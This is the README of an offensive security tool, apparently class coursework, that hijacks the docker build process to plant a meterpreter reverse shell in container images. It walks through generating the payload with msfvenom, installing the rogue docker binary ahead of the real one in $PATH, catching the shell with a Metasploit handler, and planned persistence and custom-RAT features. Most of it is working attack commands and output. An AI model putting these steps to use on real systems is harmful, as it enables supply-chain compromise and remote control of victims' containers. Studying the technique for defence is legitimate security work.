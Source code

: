 # docker-hijack

Docker-hijack demonstrates how an adversary could hijack the docker build process to embed malware in container images.

This tool is intended for use by ethical security practitioners to assess and improve cybersecurity.

Misuse of this tool is strongly condemned by the author.

This tool was created to satisfy classwork for Dakota State University's CSC-842 Security Tool Development.

[image](media/docker-hijack.drawio.png)

## Prerequisites

- GNU/Linux-based Operating System
- Go compiler
- Docker
- Metasploit (optional)

### Usage

### 1. Build from Source

We do not provide pre-compiled versions of this program.

You must first build docker-hijack from source.

Build instructions are as follows:

```bash
# clone the repository
git clone https://github.com/bluesentinelsec/docker-hijack.git

# enter the project folder
cd docker-highjack

# place a meterpreter shell in the payloads folder
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f elf -o pkg/payload/meterpreter

# read/change the evil docker-build commands
cat pkg/payload/build_commands.txt

# build docker-highjack with default options
go build -o docker-hijack cmd/main.go

# confirm executable runs; it should proxy
# '--help' to the legitimate docker executable
./docker-hijack --help
```

### 2. Deploy docker-hijack to target Unix-based system

How you do this is up to you.

Never deploy this tool on target systems unless you have explicit written permission from the device owner(s).

### 3. Install docker-hijack on target

You should now have the docker-hijack binary on the target system.

Next, we need to ensure that docker-hijack is executed before the legitimate docker.

There are many ways to do this, such as setting alias commands, or modifying the user's $PATH variable.

For demonstration purposes, you can simply copy the tainted docker to `/usr/local/bin` which is ahead of the legitimate docker executable.

This requires sudo permissions.

```bash
# move docker-hijack to location ahead of docker in $PATH
sudo mv docker-hijack /usr/local/bin
```

Now confirm that docker-hijack is executed:

```bash
docker --infected

you executed docker hijack
```

Now docker-hijack sits between the user and the legitimate docker executable.

### 4. Wait for compromised user to invoke docker build command

Setup a Meterpreter handler; this needs to match the Meterpreter created in `docker-hijack/pkg/payload/meterpreter`:

```
# example meterpreter commands
sudo msfconsole
msf > use exploit/multi/handler
msf > set payload linux/x86/meterpreter/reverse_tcp
msf > set LHOST 0.0.0.0
msf > set LPORT 4444
msf > run -j
[*] Started reverse TCP handler on 0.0.0.0:4444 
```

Now wait... whenever a compromised user invokes docker build, docker-hijack will insert a malicious command into the docker build file.

To test this, run a docker build command against `docker-hijack/testData/Dockerfile`.

```bash
# from docker-hijack/testData/
# build the Dockerfile; docker-hijack will intercept the command
# and inject the Dockerfile; once the build is finished, docker-hijack
# will restore the original build file
docker build . -t compromised
```

Finally, execute the container.

If it worked, you should get a shell.

```bash
docker exec -it compromised bash
```

```bash
msf6 exploit(multi/handler) > [*] Sending stage (1017704 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (192.168.1.153:4444 -> 172.17.0.2:41404) at 2023-05-31 18:39:01 -0400
```

### 5. Cleanup

Remove docker-hijack:

```
# delete docker-hijack
rm -rf /usr/local/bin/docker

# stop/delete tainted container image
docker ps
docker stop <tainted container ID>

docker images
docker rmi infected --force
```

## Future Work

Given enough time, I would pursue the following features:

1. Automate docker-hijack installation

2. Deploy the embedded payload as a service/daemon. This should make the payload fire when the container is executed detatched. Cron job is another option; however, containers don't always have cron installed.

3. Make it easier to specify your payloads at build time. Ideally it should be:

```bash
make payload_src=/path/to/your_rat \
     payload_dst=/usr/local/bin/your_rat \
     build_cmds=/path/to/your_build_cmds.txt
```


